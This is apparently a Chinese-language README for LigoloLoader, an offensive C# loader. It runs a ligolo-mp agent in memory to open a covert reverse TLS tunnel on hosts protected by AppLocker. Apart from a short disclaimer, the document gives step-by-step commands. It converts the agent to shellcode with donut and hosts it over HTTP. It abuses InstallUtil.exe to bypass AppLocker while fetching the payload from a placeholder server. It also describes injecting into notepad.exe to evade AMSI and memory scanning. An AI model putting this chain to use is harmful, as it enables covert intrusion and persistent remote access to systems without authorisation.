

# LigoloLoader

## ⚠️免责声明

**本工具仅供安全研究与授权测试使用。使用者须遵守所在国法律法规，并确保已获得被测系统所有者的明确授权。严禁将此工具用于任何非法攻击、入侵或破坏他人计算机系统的活动。若使用者违反前述规定，产生的一切法律责任与后果由使用者自行承担，与本项目及开发者无关。**

## 概述

​`LigoloLoader.exe`​ 是一个轻量级的 C# 工具，能够在启用了 **AppLocker** 的环境下，通过完全内存化的方式加载并运行 **ligolo-mp agent**，从而建立隐蔽的反向 TLS 隧道。基于已验证成功的远程线程注入方案，通过 **Donut** 将 ligolo agent 转化为 shellcode，并利用 **InstallUtil.exe**（受信任的 Microsoft 签名二进制）绕过 AppLocker，在内存中启动 ligolo 隧道。整个过程无 agent 文件落地，隐蔽且稳定。

## 快速开始

1. **生成加密 shellcode**（在 Kali 上）：

   使用ligolo-mp生成agent，处理为shellcode

   ```bash
   donut -a 2 -f 1 -o agent.bin -i agent.exe
   ```
2. ​**托管 shellcode**：  

   ```bash
   python3 -m http.server 80
   ```
3. **下载或编译 LigoloLoader.exe**：  
   **方式一：直接下载已编译版本（推荐）**   
   从 [Release 页](https://github.com/RasAlGhul-1/MirageShell/releases) 下载 `LigoloLoader.exe`​。  
   **方式二：自行编译**  
   在 Windows 上使用 .NET Framework 4.x 编译：

   ```cmd
   C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:exe /out:LigoloLoader.exe /reference:System.Configuration.Install.dll LigoloLoader.cs
   ```
4. ​**在目标机上执行**（绕过 AppLocker）：  

   ```cmd
   C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /U /URL=http://your-ip/agent.bin /logfile= /LogToConsole=true LigoloLoader.exe
   ```

   或直接双击 `LigoloLoader.exe`（使用内置默认 URL）。



## 原理简介

- 使用 **Donut** 将 ligolo agent 转换为位置无关的加密 shellcode，对抗内存扫描。
- **远程线程注入** 到挂起的 `notepad.exe` 中，确保即使 InstallUtil 退出，隧道依然存活。
- **InstallUtil.exe** 是 Microsoft 签名的合法工具，可执行任何带有 `Installer` 类的 .NET 程序集，完美绕过APPLOCKER。
- 整个链条不触发 PowerShell、AMSI 或 .NET 反射加载，无恶意文件写入磁盘。

## 自定义配置

修改 `LigoloLoader.cs`​ 顶部的 `Config` 类即可更改默认下载地址：

```csharp
public static class Config
{
    public const string DefaultURL = "http://your-server/agent.bin";
}
```
